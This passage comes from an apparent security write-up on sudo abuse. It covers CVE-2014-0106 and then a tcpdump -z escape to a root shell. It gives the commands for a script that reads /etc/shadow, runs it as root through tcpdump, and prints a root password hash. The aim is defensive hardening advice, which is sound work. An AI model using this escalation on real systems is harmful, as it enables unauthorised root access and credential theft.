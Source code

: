 Note that RHEL 5.10 was vulnerable because it ships the [1.7.2p1](http://vault.centos.org/5.10/os/SRPMS/sudo-1.7.2p1-28.el5.src.rpm) version \(with every previous security patches applied\) and similarly, RHEL 6.0 through 6.3 inclusive ship a version from the 1.7 branch. However RHEL 6.4 was not vulnerable because it ships the [1.8.6p3](http://vault.centos.org/6.5/os/Source/SPackages/sudo-1.8.6p3-12.el6.src.rpm) version.

We responsibly disclosed this security issue to the vendor, and within a week, the vulnerability was assigned [CVE-2014-0106](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0106), the details were made [public](http://www.sudo.ws/sudo/alerts/env_add.html) and the [1.7.10p8](http://www.sudo.ws/sudo/maintenance.html#1.7.10p8) security fix was released. While security updates are being rolled out for the affected distributions, a simple workaround is to simply not disable env\_reset, which is the default behaviour.

## Escape to shell

Consider the following Sudo configuration for our user account “john”:

```text
$ sudo -l
[sudo] password for john:
User john may run the following commands on this host:
    (root) /usr/sbin/tcpdump
```

In this case, john is able to capture network traffic. A perfectly legitimate task for a system administrator, so what could possibly go wrong? The “-z postrotate-command” option \(introduced in tcpdump version 4.0.0\), is worth knowing:

```text
$ echo $'id\ncat /etc/shadow' > /tmp/.test
$ chmod +x /tmp/.test
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
[sudo] password for john:
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
Maximum file limit reached: 1
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
root:$6$CnflBAm.SEqAN6Rz$rZhceJkWQlw1Dl1LaWltiT.cIhXyHtk5Ot2C7mMygrr7XBhJFzLkO8RKphzgowaYUMJHiO2MB9oBRCKFQAWoz0:16138:0:99999:7:::
bin:*:15980:0:99999:7:::
...
```

Note that “-Z root” is required on RedHat-based distributions \(Fedora, CentOS, etc.\) as they [patch](http://pkgs.fedoraproject.org/cgit/tcpdump.git/diff/tcpdump-4.2.1-eperm.patch?h=f17) the tcpdump package to drop root privileges before handling savefiles.

So what can you do to protect yourself against Sudo abuse? Make sure you scrutinise every program that a user is allowed to run with elevated privileges as there may be ways for users to break out to a nice \# prompt. For example, programs such as vi or less, that allow users to invoke arbitrary shell commands \(with ! or similar\), should be replaced with their more secure counterparts, rvim and cat respectively.

### References <a id="references"></a>
